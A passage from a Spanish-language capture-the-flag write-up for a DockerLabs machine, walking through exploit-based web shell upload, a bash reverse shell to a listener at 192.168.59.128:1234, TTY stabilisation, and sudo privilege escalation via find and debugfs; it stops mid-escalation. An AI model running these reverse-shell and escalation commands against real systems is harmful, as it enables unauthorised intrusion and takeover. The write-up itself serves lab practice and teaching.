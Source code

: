 ```ruby
python plug_calendar.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

![shell_upload](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/whoiam/shell_upload.png)

Como vemos, el exploit logró autenticarse de manera exitosa juntamente con la carga de shell, nos dirigimos al enlace que nos proporciona
![shell](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/whoiam/shell.png)


Tenemos una web shell, pero para tener una mas interactiva, podemos enviarnos una reverse shell hacia nuestro equipo:
En la webshell hacemos:
```ruby
bash -c 'bash -i >& /dev/tcp/192.168.59.128/1234 0>&1'
```
y en nuestra maquina nos ponemos en escucha:
```ruby
nc -nlvp 1234
```
![reverse_shell](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/whoiam/reverse_shell.png)

TRATAMIENTO DE LA TTY
```ruby
script /dev/null -c bash
ctrl + z
stty raw -echo:fg
        reset xterm
export TERM=xterm
export SHELL=bash
```
## ESCALADA DE PRIVILEGIOS 
Realizamos un `sudo -l` podemos ver que el usuario `rafa` puede ejecutar el binario `find`, podemos aprovecharnos de eso y convertinos en dicho usuario, usamos [GTFObins](https://gtfobins.github.io/) 
![escalada_rafa](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/whoiam/escalada_rafa.png)

```ruby
sudo -u rafa find . -exec /bin/sh \; -quit
```
Con eso conseguiremos ser el usuario rafa, seguimos escalando privilegios y podemos ver que el usuario `ruben` puede ejecutar el binario de sistema que es `debugfs`
entonces como dice [GTFObins](https://gtfobins.github.io/gtfobins/debugfs/#sudo) hacemos
```ruby
sudo -u ruben debugfs
!/bin/bash
```
![ruben](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/whoiam/ruben.png)


Somos el usuario `ruben` ahora podemos seguir escalando y vemos que todos pueden ejecutar un script de nombre `penguin.sh`, podemos ver que contiene el archivo
